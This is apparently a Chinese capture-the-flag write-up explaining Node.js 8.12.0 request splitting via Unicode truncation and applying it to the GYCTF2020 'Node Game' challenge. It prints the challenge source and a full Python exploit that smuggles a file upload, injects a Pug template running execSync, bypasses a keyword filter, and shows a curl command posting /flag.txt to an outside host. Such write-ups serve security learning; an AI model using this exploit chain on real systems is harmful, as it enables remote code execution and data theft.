


# URL拆分造成SSRF

## 介绍

node.js 8.12.0存在一个会导致请求拆分攻击的漏洞，具体表现为当请求```'café🐶```时，实际上请求的地址会变成```/café=6```。

因为node.js在处理没有body的请求时，会默认使用```latin1```编码，这种编码方式无法处理```🐶```这种emoji，所以JavaScript会将字符截断为其能表示的最低字节：```6```，我们可以在node.js中验证一下：



那么如何利用这种bug呢，我们首先要了解request splitting攻击。

## 利用方式—请求拆分

假设有这样一个请求：

```http
GET /query?q=<接受用户输入> HTTP/1.1
```

如果服务器不能正确处理用户的输入，就有可能造成注入攻击，例如用户输入这样的字符串```x HTTP/1.1\r\n\r\nDELETE /query HTTP/1.1\r\n```

服务器的错误处理方式如下：

```http
GET /query?q=x HTTP/1.1

DELETE /query
```

我们可以看到此时一个请求变成了两个请求，这种情况往往会被称为SSRF攻击，我们可以利用SSRF访问内网等等。

但是通常服务器会有阻止这一行为的措施，Node.js也不例外：如果你尝试发出一个路径中含有控制字符的HTTP请求，它们会被URL编码：

```http
> http.get('http://example.com/\r\n/test').output
[ 'GET /%0D%0A/test HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' ]
```

但是我们利用前文中介绍的漏洞会绕过上述的处理机制，当我们传入的url是```http://example.com/čĊ/test```这种时，node.js不会对其转义，因为它们不是HTTP控制字符，但当JavaScript将其写入路径时，这又变成了```http://example.com/\r\n/test```



因此，通过在请求路径中包含精心选择的unicode字符，攻击者可以欺骗Node.js将HTTP协议控制字符写入线路。

## 题目—[GYCTF2020]Node Game

### 源码

本题的源码为：

```javascript
var express = require('express');
var app = express();
var fs = require('fs');
var path = require('path');
var http = require('http');
var pug = require('pug');
var morgan = require('morgan');
const multer = require('multer');


app.use(multer({dest: './dist'}).array('file'));
app.use(morgan('short'));
app.use("/uploads",express.static(path.join(__dirname, '/uploads')))
app.use("/template",express.static(path.join(__dirname, '/template')))


app.get('/', function(req, res) {
    var action = req.query.action?req.query.action:"index";
    if( action.includes("/") || action.includes("\\") ){
        res.send("Errrrr, You have been Blocked");
    }
    file = path.join(__dirname + '/template/'+ action +'.pug');
    var html = pug.renderFile(file);
    res.send(html);
});

app.post('/file_upload', function(req, res){
    var ip = req.connection.remoteAddress;
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg="only admin's ip can use it"
        res.send(JSON.stringify(obj));
        return 
    }
    fs.readFile(req.files[0].path, function(err, data){
        if(err){
            obj.msg = 'upload failed';
            res.send(JSON.stringify(obj));
        }else{
            var file_path = '/uploads/' + req.files[0].mimetype +"/";
            var file_name = req.files[0].originalname
            var dir_file = __dirname + file_path + file_name
            if(!fs.existsSync(__dirname + file_path)){
                try {
                    fs.mkdirSync(__dirname + file_path)
                } catch (error) {
                    obj.msg = "file type error";
                    res.send(JSON.stringify(obj));
                    return
                }
            }
            try {
                fs.writeFileSync(dir_file,data)
                obj = {
                    msg: 'upload success',
                    filename: file_path + file_name
                } 
            } catch (error) {
                obj.msg = 'upload failed';
            }
            res.send(JSON.stringify(obj));    
        }
    })
})

app.get('/source', function(req, res) {
    res.sendFile(path.join(__dirname + '/template/source.txt'));
});


app.get('/core', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:8081/source?' + q
        console.log(url)
        var trigger = blacklist(url);
        if (trigger === true) {
            res.send("<p>error occurs!</p>");
        } else {
            try {
                http.get(url, function(resp) {
                    resp.setEncoding('utf8');
                    resp.on('error', function(err) {
                    if (err.code === "ECONNRESET") {
                     console.log("Timeout occurs");
                     return;
                    }
                   });

                    resp.on('data', function(chunk) {
                        try {
                         resps = chunk.toString();
                         res.send(resps);
                        }catch (e) {
                           res.send(e.message);
                        }
 
                    }).on('error', (e) => {
                         res.send(e.message);});
                });
            } catch (error) {
                console.log(error);
            }
        }
    } else {
        res.send("search param 'q' missing!");
    }
})

function blacklist(url) {
    var evilwords = ["global", "process","mainModule","require","root","child_process","exec","\"","'","!"];
    var arrayLen = evilwords.length;
    for (var i = 0; i < arrayLen; i++) {
        const trigger = url.includes(evilwords[i]);
        if (trigger === true) {
            return true
        }
    }
}

var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Example app listening at http://%s:%s", host, port)
})

```

### 解题方法

我们可以看到在第77行和84中分别接收了我们输入的url并在服务器中做出请求，于是我们可以利用上文中的漏洞完成SSRF请求```/file_upload```上传模板文件并且进行包含获得flag。

解题脚本如下：

```python
# exp.py

import requests
import sys

payloadRaw = """x HTTP/1.1

POST /file_upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12837266501973088788260782942
Content-Length: 6279
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/?action=upload
Upgrade-Insecure-Requests: 1

-----------------------------12837266501973088788260782942
Content-Disposition: form-data; name="file"; filename="5am3_get_flag.pug"
Content-Type: ../template

- global.process.mainModule.require('child_process').execSync('evalcmd')
-----------------------------12837266501973088788260782942--


"""

def getParm(payload):
    payload = payload.replace(" ","%C4%A0")
    payload = payload.replace("\n","%C4%8D%C4%8A")
    payload = payload.replace("\"","%C4%A2")
    payload = payload.replace("'","%C4%A7")
    payload = payload.replace("`","%C5%A0")
    payload = payload.replace("!","%C4%A1")

    payload = payload.replace("+","%2B")
    payload = payload.replace(";","%3B")
    payload = payload.replace("&","%26")

    # Bypass Waf 
    payload = payload.replace("global","%C5%A7%C5%AC%C5%AF%C5%A2%C5%A1%C5%AC")
    payload = payload.replace("process","%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("mainModule","%C5%AD%C5%A1%C5%A9%C5%AE%C5%8D%C5%AF%C5%A4%C5%B5%C5%AC%C5%A5")
    payload = payload.replace("require","%C5%B2%C5%A5%C5%B1%C5%B5%C5%A9%C5%B2%C5%A5")
    payload = payload.replace("root","%C5%B2%C5%AF%C5%AF%C5%B4")
    payload = payload.replace("child_process","%C5%A3%C5%A8%C5%A9%C5%AC%C5%A4%C5%9F%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("exec","%C5%A5%C5%B8%C5%A5%C5%A3")
    
    return payload

def run(url,cmd):
    payloadC =  payloadRaw.replace("evalcmd",cmd)
    urlC = url+"/core?q="+getParm(payloadC)
    requests.get(urlC)
    
    requests.get(url+"/?action=5am3_get_flag").text

if __name__ == '__main__':
    targetUrl = sys.argv[1]
    cmd = sys.argv[2]
    print run(targetUrl,cmd)

# python exp.py http://127.0.0.1:8081 "curl eval.com -X POST -d `cat /flag.txt`"
```

注意到为了让node.js不转义```\n\r```这种字符，我们将其替换为url编码后的特殊字符串，同理绕过waf也是一样的方式：


